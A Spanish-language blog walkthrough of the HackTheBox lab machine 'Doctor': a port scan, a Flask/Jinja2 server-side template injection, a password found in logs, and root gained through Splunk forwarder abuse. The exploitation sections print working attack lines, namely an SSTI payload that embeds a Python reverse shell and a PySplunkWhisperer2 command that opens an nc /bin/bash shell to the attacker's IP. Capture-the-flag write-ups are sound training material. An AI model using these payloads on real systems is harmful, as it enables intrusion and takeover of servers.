 ```yaml
---
layout: post
title: Write-Up Máquina Doctor HTB
date: 2021-01-30 16:00 +0800
last_modified_at: 2021-01-30 16:10 +0800
tags: [htb, writeup, linux, splunk, ssti]
toc:  true
---
```


![Doctor-info-card](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-info-card.png)

## Introducción

La máquina doctor, Es una máquina de dificultad fácil la cual corre un sistema linux de 64 bits. Para explotar esta máquina vamos utilizar una [Server-Side Template Injection](https://portswigger.net/research/server-side-template-injection) para obtener una reverse shell inicial. Una vez obtenida encontraremos una password que nos servirá para obtener el usuario. Para la escalada de privilegios, explotaremos el servicio splunk con las credenciales del usuario shaun.

---
## Escaneo

```bash
nmap  10.10.10.209 -p- -sV -sC --min-rate=5000                                                                                    

Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-04 15:02 CET
Nmap scan report for doctor.htb (10.10.10.209)
Host is up (0.031s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.70 seconds
```
Esta máquina tiene 3 puertos abiertos:
* Puerto 22: SSH
* Puerto 80: HTTPd (apache)
* Puerto 8089: HTTP (Splunk)


### Puerto 22
En el puerto 22 Nos encontramos con el un servidor SSH.

### Puerto 80
En el puerto 80, nos encontramos con un servidor web apache. En este caso si accedemos a través de la IP nos encontramos con una pagina estática. En ella podemos ver un correo con un dominio. 

![Doctor-email](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-email.png)

### Puerto 8089
En el puerto 8089, nos encontramos con un servidor de splunk.

---
## Enumeración

Si añadimos el dominio doctors.htb y accedemos al la web, nos encontramos con una pagina de login, la cual tiene una opción para registrar una cuenta.

![Doctor-login](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-login.png)

Vamos a registrar una cuenta y accedemos a la web principal. Una vez ahi se nos da la opción de postear un nuevo mensaje.

Vamos a postear un mensaje nuevo.

![Doctor-new-message](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-new-message.png)
![Doctor-posted-message](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-posted-message.png)

Vemos que podemos ver los mensajes que escribimos. Si vamos a view-source:http://doctors.htb/archive vemos que el título de el post aparece reflejado. Esto es indicativo de un posible server-side template injection.

---
## Explotación

Para la explotación vamos a crear un nuevo post con nuestro payload en el título, ya que es el título  lo que se refleja.

En este caso el payload va a ser una reverse shell en python, ya que el backend de la página es una implementación de flask.
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

En este caso nuestro payload sera el siguiente:

```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"<tuIP>\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\"]);'").read().zfill(417)}}{%endif%}{% endfor %}

```

Una vez creemos el post nuevo accederemos a http://doctors.htb/archive recibiremos nuestra reverse en el puerto 1234.

![Doctor-reverse-shell](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-reverse-shell.png)

Ya que tenemos una reverse shell, vamos a enumerar la maquina en busca de pistas para obtener el usuario. Para esto vamos a subir el script de [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh) y vamos a enumerar la máquina.

```log
[+] Finding passwords inside logs (limit 70)
Binary file /var/log/apache2/access.log.12.gz matches
Binary file /var/log/journal/62307f5876ce4bdeb1a4be33bebfb978/system.journal matches
Binary file /var/log/journal/62307f5876ce4bdeb1a4be33bebfb978/user-1001.journal matches
Binary file /var/log/kern.log.2.gz matches
Binary file /var/log/kern.log.4.gz matches
Binary file /var/log/syslog.4.gz matches
/var/log/apache2/access.log:10.10.14.29 - - [04/Feb/2021:15:51:36 +0100] "GET /reset_password HTTP/1.1" 200 1812 "-" "gobuster/3.0.1"
/var/log/apache2/access.log:10.10.14.29 - - [04/Feb/2021:16:39:18 +0100] "GET /reset_password HTTP/1.1" 200 1811 "-" "gobuster/3.0.1"
/var/log/apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
/var/log/auth.log.1:Sep 22 13:01:23 doctor sshd[1704]: Failed password for invalid user shaun from 10.10.14.2 port 40896 ssh2
/var/log/auth.log.1:Sep 22 13:01:28 doctor sshd[1704]: Failed password for invalid user shaun from 10.10.14.2 port 40896 ssh2
/var/log/auth.log.1:Sep 23 15:38:45 doctor sudo:    shaun : command not allowed ; TTY=tty1 ; PWD=/home/shaun ; USER=root ; COMMAND=list
/var/log/auth.log.1:Sep 28 13:31:10 doctor sudo:     root : TTY=pts/0 ; PWD=/root ; USER=root ; COMMAND=/usr/sbin/setcap -r /usr/bin/python3/
```

Vemos que en uno de los logs hay una contraseña y también se hace referencia al usuario shaun.

Vamos entonces a probar las credenciales:
* username: shaun
* password: Guitar123

```bash
web@doctor:/tmp$ su shaun
su shaun
Password: Guitar123

id
uid=1002(shaun) gid=1002(shaun) groups=1002(shaun)
```
Como podemos ver ya somos usuario shaun y por tanto podemos ver la flag.

![Doctor-flag-user](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-flag-user.png)

---
## Escalada de privilegios

Al principio, vimos que la máquina tenia levantado un servidor de splunk en el puerto 8089. Si vamos a la URL https://10.10.10.209:8089/services nos pedirá unas credenciales. Ya que tenemos credenciales para el usuario shaun, vamos a probarlas.

![Doctor-services-splunk](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-services-splunk.png)

Como podemos comprobar tenemos acceso y las credenciales son validas. Una vez sabemos esto, vamos a buscar la forma de ejecutar comandos. 

Para este caso encontré una herramienta en github la cual nos permite de manera remota ejecutar una escalada de privilegios a traves de malas configuraciones en el [splunk universal forwarder](https://clement.notin.org/blog/2019/02/25/Splunk-Universal-Forwarder-Hijacking-2-SplunkWhisperer2/).

```bash
python3 PySplunkWhisperer2_remote.py --host doctors.htb --port 8089 --lhost 10.10.14.29 --user shaun --password Guitar123 --payload "nc.traditional -e /bin/bash '10.10.14.29' 1111"
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpmj9na35k.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.29:8181/
10.10.10.209 - - [04/Feb/2021 19:59:20] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup
```
![Doctor-root-check](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-root-check.png)

como podemos ver, recibimos la reverse shell y ya somos root.

```
cat /root/root.txt
76373cb2c7aee0a7cfb9c284801cd62b
```


